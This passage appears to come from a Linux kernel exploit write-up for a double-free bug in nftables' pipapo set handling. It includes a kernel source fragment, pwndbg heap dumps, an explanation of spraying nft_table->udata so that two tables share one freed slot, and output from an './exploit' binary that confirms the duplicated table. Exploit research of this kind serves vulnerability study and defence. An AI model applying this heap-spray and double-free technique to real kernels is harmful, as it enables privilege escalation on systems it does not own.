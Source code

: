 ```bash

	while ((rules_f0 = pipapo_rules_same_key(m->f, first_rule))) {
		union nft_pipapo_map_bucket rulemap[NFT_PIPAPO_MAX_FIELDS];
		const u8 *match_start, *match_end;
		struct nft_pipapo_field *f;
		int i, start, rules_fx;
...
pwndbg> x/40gx e 

0xffff888105615600:	0x3800000000000c03	0x4242424200003000
0xffff888105615610:	0x4242424242424242	0x4242424242424242
0xffff888105615620:	0x4242424242424242	0x0000000042424242
0xffff888105615630:	0xffff888105615900	0x414141414141418a
0xffff888105615640:	0x4141414141414141	0x4141414141414141
0xffff888105615650:	0x4141414141414141	0x4141414141414141
0xffff888105615660:	0x4141414141414141	0x4141414141414141
0xffff888105615670:	0x4141414141414141	0x4141414141414141
0xffff888105615680:	0x4141414141414141	0x4141414141414141
0xffff888105615690:	0x4141414141414141	0x4141414141414141
0xffff8881056156a0:	0x4141414141414141	0x4141414141414141
0xffff8881056156b0:	0x4141414141414141	0x4141414141414141
...
```

We successfully triggered the double free. Since we sprayed several `nft_table->udata` instances with approximately the same size beforehand, this caused two `nft_table->udata` instances to have the same value. This happened because one of the `nft_table->udata` instances occupied the double-free slot that we successfully triggered. Now, let's inspect the `nft_table`:


```bash
pwndbg> x table

0xffff888102a56e00:	0xffff888105631280
pwndbg> x/s table->name

0xffff8881002563b8:	"spray-2"
pwndbg> x/10gx table->udata
quit
0xffff888105615600:	0x3232323232323232	0x3232323232323232
0xffff888105615610:	0x3232323232323232	0x3232323232323232
0xffff888105615620:	0x3232323232323232	0x3232323232323232
0xffff888105615630:	0x3232323232323232	0x3232323232323232
0xffff888105615640:	0x3232323232323232	0x3232323232323232
```

at this value `0xffff888105615600`, which was previously the value of our `element` which was successfully triggered, is now occupied by the wrong `nft_table->udata`, this is the result:

```bash
[ Bam0x7 ]
/ $ ./exploit
[*] prepare table and chain
[*] trigger double-free
[+] table spray-0->udata 0x3232323232323232
[+] table spray-2->udata 0x3232323232323232
[+] got duplicated table

```
